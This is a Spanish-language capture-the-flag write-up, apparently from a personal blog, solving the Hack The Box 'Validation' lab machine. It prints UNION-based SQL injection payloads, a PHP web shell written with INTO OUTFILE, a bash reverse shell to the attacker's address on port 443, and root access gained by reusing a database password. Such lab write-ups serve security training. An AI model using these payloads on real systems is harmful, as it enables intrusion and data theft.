 ```yaml
---
title: Hack The Box Validation
author: k4miyo
date: 2022-04-12
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Linux]
tags: [SQLi]
ping: true
---
```


## Validation
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.11.116.

```bash
❯ ping -c 1 10.10.11.116
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=139 ms

--- 10.10.11.116 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 139.123/139.123/139.123/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -T5 -v -n 10.10.11.116 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 21:00 CDT
Initiating Ping Scan at 21:00                                   
Scanning 10.10.11.116 [4 ports]                                                                                                  
Completed Ping Scan at 21:00, 0.15s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:00
Scanning 10.10.11.116 [65535 ports]                                                                                              
Discovered open port 22/tcp on 10.10.11.116                                                                                      
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 21:01, 49.60s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up (0.14s latency).
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE                                                                                                           
22/tcp   open  ssh     
80/tcp   open  http                                                                                                              
4566/tcp open  kwtc            
8080/tcp open  http-proxy                                                                                                        
                                
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 50.28 seconds
           Raw packets sent: 80154 (3.527MB) | Rcvd: 79194 (3.168MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts                                         
───────┬──────────────────────────────────────
       │ File: extractPorts.tmp                                 
───────┼──────────────────────────────────────
   1   │                                                                                                                         
   2   │ [*] Extracting information...
   3   │                                                                                                                         
   4   │     [*] IP Address: 10.10.11.116
   5   │     [*] Open ports: 22,80,4566,8080
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p22,80,4566,8080 10.10.11.116 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 21:02 CDT
Nmap scan report for 10.10.11.116
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.44 seconds
```

Nos encontramos con varios puertos que tienen el servicio HTTP corriendo, así que antes de visualizar el contenido vía web, vamos a ver a lo que nos enfrentamos con la herramienta `whatweb`:

```bash
❯ whatweb http://10.10.11.116/
http://10.10.11.116/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
❯ whatweb http://10.10.11.116:4566/
http://10.10.11.116:4566/ [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[403 Forbidden], nginx
❯ whatweb http://10.10.11.116:8080/
http://10.10.11.116:8080/ [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
```

Poco más podemos ver que lo que ya nos ha reportado `nmap`; por lo que vamos a ver vía web:

![](/assets/images/htb-validation/validation-web.png)

Vemos que podemos ingresar un usuario, vamos a hacer algunas pruebas:

- `admin` - Vemos que se agrega al país que seleccionamos.
- `admin'` - Vemos que se agrega al país que seleccionamos con la *'*.
- `<h1>admin</h1>` - Es vulnerable a HTML Injection.
- `<script>admin</script>` - Es vulnerable a XSS.

No podemos hacer nada en este punto, así que vamos a ver como se tramita la petición y tenemos que se envían los campos **username** y **country**; por lo que vamos a interceptar la petición con **BurpSuite** y la mandamos al **Repeater**:

![](/assets/images/htb-validation/validation-burp.png)

Agregamos una comilla simple al país y enviamos la petición.

![](/assets/images/htb-validation/validation-burp1.png)

Al realizar las pruebas, para **Brazil** no se reflejaban las inyecciones que hacía; así que probé con otro país y ya comenzaron a reflejarse los cambios, para este caso **Mexico**. Ahora vamos a realizar las inyecciones siguientes:

- `username=k4miyo&country=Mexico' union select 1-- -` - Vemos que el campo del nombre de usuario cambia al valor 1.
- `username=k4miyo&country=Mexico' union select "test"-- -`: Vemos que el campo del nombre de usuario cambia al valor "test".
- `username=k4miyo&country=Mexico' union select database()-- -`: Vemos que el campo del nombre de usuario cambia al nombre de la base de datos, para este caso es **registration**.
- `username=k4miyo&country=Mexico' union select schema_name from information_schema.schemata-- -`: Tenemos los nombres de las bases de datos: **information_schema**, **performance_schema**, **mysql** y **registration**.
- `username=k4miyo&country=Mexico' union select table_name from information_schema.tables where table_schema="registration"-- -`: Vemos los nombres de las tablas presentes en la base de datos **registration**, en este caso **registration**.
- `username=k4miyo&country=Mexico' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Obtenemos los nombres de las columnas de la tabla **registration**, las cuales son: **username**, **userhash**, **country** y **regtime**.
- `username=k4miyo&country=Mexico' union select group_concat(username,0x3a,userhash) from registration.registration-- -` Obtenemos los campos **username** y **userhash**.

A partir de aquí no tenemos nada interesante, pero podríamos tratar de ver recursos en la máquina y tratar de subir algún archivo:

- `username=k4miyo&country=Mexico' union select load_file("/etc/passwd")-- -` Podemos ver el `/etc/passwd` de la máquina víctima.
- `username=k4miyo&country=Afganistan' union select "<?php echo shell_exec($_REQUEST['cmd']); ?>" into outfile "/var/www/html/k4mishell.php" -- -` Podemos subir archivos en la ruta `/var/www/html` y en este caso un archivo php con la cual podemos ejecutar comandos a nivel de sistema.

![](/assets/images/htb-validation/validation-web1.png)

Si tratamos de entablarnos una reverse shell, vemos que no nos funciona o que la conexión se muere rápidamente. Por lo tanto, trataremos de hacerlo con python; así que nos ponemos en escucha por el puerto 443:

```bash
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> data = {'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'"}
>>> import requests
>>> r = requests.post('http://10.10.11.116/k4mishell.php', data=data)
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.116] 43018
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
www-data@validation:/var/www/html$ 
```

Ya ingresamos a la máquina como el usuario **www-data** y para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Vemos que podemos visualizar la primer flag (user.txt). Ahora vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios:

```bash
www-data@validation:/home/htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/home/htb$ sudo -l
bash: sudo: command not found
www-data@validation:/home/htb$ cd /var/www/html/
www-data@validation:/var/www/html$ ls -l
total 40
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
-rw-r--r-- 1 mysql    mysql       65 Apr 11 18:37 k4mishell.php
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
www-data@validation:/var/www/html$
```

Tenemos una contraseña dentro del archivo `config.php`, suponiendo que se aplica reutilización de credenciales, podriamos ver si aplicar para el usuario **root**:

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# whoami
root
root@validation:/var/www/html#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

Se comparte un autopwn de la máquina [Validation-Autopwn](https://github.com/k4miyo/Validation-Autopwn).
